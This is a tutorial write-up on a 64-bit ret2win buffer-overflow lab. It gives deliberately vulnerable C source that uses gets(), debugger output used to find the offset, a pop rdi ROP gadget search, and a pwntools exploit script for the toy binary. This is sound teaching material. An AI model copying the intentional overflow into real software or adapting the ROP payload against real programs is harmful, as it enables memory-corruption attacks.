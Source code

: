 # 64-bit

{% file src="../../../.gitbook/assets/ret2win_params_x64.zip" %}

The difference between 32-bit and 64-bit binary lies in the [Calling Convention](https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/linux-x64-calling-convention-stack-frame). It's basically how arguments/parameters are passed to the function. In x64 architecture, the first 6 arguments are passed on to the registers (RDI, RSI, RDX, RCX, R8, R9) and the rest get pushed onto the stack. Whereas, in x32, all of the arguments are ultimately passed to the stack.&#x20;

Enough yapping, let's begin

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void rdi_func() {
    asm("pop %rdi; ret");
}

void flag(int check) {
    if(check == 0xFACEB00C) {
        puts("How are you here??");
    } else {
    	puts("So close, yet so far...");
    }
}

void vuln() {
    char buffer[40];

    printf("There's nothing to see here right?\n> ");
    gets(buffer);
}



int main() {
    vuln();
    return 0;
}
```

I modified the source a little bit, but it should be the same but we will be passing only one parameter due to me having trouble with adding more gadgets (lol)

***

### 1. Find offset

<pre><code><strong>pwndbg> cyclic 100
</strong>aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
</code></pre>

```
 RAX  0x7fffffffdc40 ◂— 'aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
 RBX  0x7fffffffdd98 —▸ 0x7fffffffe13c ◂— '/home/mfkrypt/pwn_blog/ret2win_params/64-bit/ret2win_paramsx64'
 RCX  0x7ffff7f968e0 (_IO_2_1_stdin_) ◂— 0xfbad2288
 RDX  0
 RDI  0x7ffff7f98720 (_IO_stdfile_0_lock) ◂— 0
 RSI  0x4056b1 ◂— 'aaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa\n'
 R8   0x405715 ◂— 0
 R9   0
 R10  3
 R11  0x246
 R12  0
 R13  0x7fffffffdda8 —▸ 0x7fffffffe17b ◂— 'CLUTTER_IM_MODULE=ibus'
 R14  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0
 R15  0x403e00 (__do_global_dtors_aux_fini_array_entry) —▸ 0x401110 (__do_global_dtors_aux) ◂— endbr64 
 RBP  0x6161616161616167 ('gaaaaaaa')
 RSP  0x7fffffffdc78 ◂— 'haaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
 RIP  0x4011b0 (vuln+42) ◂— ret 
```

We can see this time the Instruction Pointer (RIP) is not populated by the string sequence that we input, this is because in 64-bit programs don't allow invalid memory address in the Instruction Pointer (which the cyclic pattern obviously is) so we read from RSP.

But we only read the starting 8 bytes, since the overflow starts from there .

Another thing to mention is 32-bit addresses tend to be smaller (4 bytes) instead of 64-bit which are 8 bytes. That is why the offset is much larger due to stack alignment (larger saved base pointer (RBP))

<pre><code><strong>pwndbg> cyclic -l haaaaaaa
</strong>Finding cyclic pattern of 8 bytes: b'haaaaaaa' (hex: 0x6861616161616161)
Found at offset 56
</code></pre>

***

### 2. Grab the address of `flag()` using gdb

```
0x000000000040114f  flag
```

Notice how larger the address is compared to the 32-bit version?

***

### 3. Find gadget

{% hint style="info" %}
* Gadgets are small snippets of code followed by a `ret` instruction, e.g. `pop rdi; ret`. We can manipulate the `ret` of these gadgets in such a way as to string together a large chain of them to do what we want.
* ROP gadgets are sequences of CPU instructions that are already present in the program being exploited or its loaded shared libraries and can be used to execute almost any arbitrary code;
{% endhint %}

We can use `ropper` to find our gadget. Since our binary only loads one argument, we need to find the `pop rdi` gadget

<pre><code><strong>❯ ropper --file ret2win_paramsx64 --search "pop rdi"
</strong>[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: ret2win_paramsx64
0x000000000040114a: pop rdi; ret;
</code></pre>

Great, we have all the components we need to craft our exploit

***

### 4. Exploit

```python
from pwn import *

elf = context.binary = ELF('./ret2win_paramsx64',checksec=False)
context.log_level='debug'
io = process()

offset = 56					# Offset found using gdb
flag_address = 0x40114f		# Flag address
pop_rdi = 0x40114a			# Gadget found using ropper
param_1 = 0xFACEB00C		# Parameter 1


payload = b'A' * offset		# padding to RIP first
payload += p64(pop_rdi)		# Gadget first to load the param into the register
payload += p64(param_1)		# pass the param
payload += p64(flag_address)	# Call function

write('payload', payload)    # Write payload into file

io.sendline(payload)
log.info(io.clean())
```

